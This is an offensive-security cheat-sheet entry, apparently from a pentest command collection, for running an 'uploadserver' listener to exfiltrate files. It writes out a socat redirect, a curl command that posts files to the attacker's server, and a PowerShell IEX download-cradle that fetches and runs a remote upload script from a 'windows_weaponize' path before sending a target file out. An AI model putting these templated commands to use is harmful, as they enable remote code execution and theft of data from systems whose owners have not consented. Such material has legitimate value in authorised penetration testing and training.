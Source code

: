 # uploadserver
% file transfer, exfiltration, injecton

#plateform/linux #target/serve  #cat/ATTACK/LISTEN-SERVE 

## install
```bash
pipx install uploadserver
```

## python upload HTTP server (basic auth)
sudo socat TCP-LISTEN:80,fork TCP:localhost:9090
```bash
sudo socat TCP-LISTEN:<http_port|80>,fork TCP:localhost:<http_user_port|9090> & uploadserver --basic-auth-upload <uploadserver_login>:<uploadserver_password> <http_user_port|9090>
```

## curl upload
```bash
curl -X POST http://<local_ip>:<port|80>/upload -F 'files=@basicauth-example.txt' -u <uploadserver_login>:<uploadserver_password>
```

## powershell upload
certutil -encode <infile> <outfile>
```powershell
IEX(New-Object Net.WebClient).DownloadString('http://<local_ip>:<port|80>/<psupload_path>PSUpload.ps1');Invoke-FileUpload -Uri http://<local_ip>:<port|80>/upload -User <uploadserver_login> -Pass <uploadserver_password> -File <path>
```

= psupload_path: windows/windows_weaponize/dev/